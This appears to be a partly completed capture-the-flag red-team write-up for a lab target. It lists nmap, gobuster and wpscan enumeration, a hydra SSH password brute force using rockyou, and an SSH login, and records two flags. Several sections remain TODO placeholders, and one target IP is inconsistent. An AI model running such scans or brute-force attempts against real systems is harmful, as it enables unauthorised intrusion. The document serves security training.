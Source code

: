 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110

```
  ![](../images/nmap-a1.png)
  ![](../images/nmap-a2.png)


This scan identifies the services below as potential points of entry:

- **Target 1**

- Open port 22 dedicated to SSH services
- Open port 80 dedicated to HTTP services
- Apache http version 2.4.1.0
- OS version Windows 6.1 (Smba 4.2)


  

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- **Target 1**

  - [Flag 1 Screen Shot ](../images/flag1-view-source2.png), `Flag1.txt`: flag1{b9bbcb33e1b80be759c4e844862482d} 
   
    - **Exploit Used**

      - Using gobuster to identify web directories and exploring them during scanning and enumeration 
      - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium dir -e -u http://192.168.1.110 -x .php,txt,html`

      - Inspecting the source code for the service page and identified the flag in comments under the code for the html footer

  - [Flag 2 Screen Shot](../images/flag2.png), `Flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

    - **Exploit Used**
     - Remote SSH connection after identifying a user with wpscan. One of the users identified was michael
     - `wpscan --url http://192.168.1.110/wordpress -eu`

     - Brute forcing the pssword for michael wiht hydra
     - `hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4`

     - Connecting via SSH as Michael
     - `ssh michael@192.168.1.10`
